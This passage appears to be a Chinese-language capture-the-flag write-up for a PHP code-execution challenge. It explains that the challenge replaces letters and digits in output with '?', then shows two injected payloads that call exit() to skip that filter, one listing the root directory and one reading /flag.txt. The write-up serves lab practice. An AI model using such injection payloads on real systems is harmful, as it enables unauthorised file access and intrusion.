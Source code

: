 - `$s = ob_get_contents();`：获取输出缓冲区的内容并赋值给变量`s`。输出缓冲区在 PHP 中用于临时存储要输出到浏览器等的内容，以便在合适的时候进行处理或修改。

- `ob_end_clean();`：清空输出缓冲区并关闭它，这样就清除了原始的、未经处理的输出内容，以便后续进行自定义的输出处理。
- `echo preg_replace("/[0-9]|[a-z]/i","?",$s);`：这行代码使用正则表达式对获取到的输出内容（存储在`s`中）进行替换操作。它会将所有的数字和字母（不区分大小写）都替换为`?`，然后将处理后的内容输出到浏览器等输出端。

也就是说这道题会对回显进行处理，让我们没法得到回显

我们可以用exit()/die()提前结束程序，从而不执行后续代码直接进行回显

```
c=var_export(scandir("/"));exit();
```

![image-20241129144431247](./assets/image-20241129144431247.png)

```
c=readgzfile('/flag.txt');exit();
```

